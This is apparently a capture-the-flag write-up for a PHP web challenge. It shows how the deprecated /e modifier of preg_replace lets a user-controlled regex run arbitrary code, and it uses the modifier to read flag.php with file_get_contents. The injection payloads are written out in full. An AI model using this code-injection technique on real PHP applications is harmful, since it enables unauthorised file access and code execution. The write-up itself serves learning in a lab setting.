 The goal is to read flag.php

We see that if we do not put something looking like /regex/ in the "search" field, we have the following warning:

```
Warning: preg_replace(): Delimiter must not be alphanumeric or backslash in /challenge/web-serveur/ch37/index.php on line 25
```

That means we can specify any option for our regex. (/regex/i) makes it non case-sensitive.
The preg_replace() function has an interesting property (in old PHP versions). This is /regex/e. It replace the regex by a value returned by some arbitrary code put in replace.

For example:

```
preg_replace("/a/e","print(123)","abcd");
```
will return "123bcd", because a has been replaced by the result of print(123).

So with
```
echo preg_replace("/a/e","file_get_contents('flag.php')","abcd");
```

we will be able to see the contents of the flag.php file.

```
<?php $flag="FLAG"; ?> bcd
```

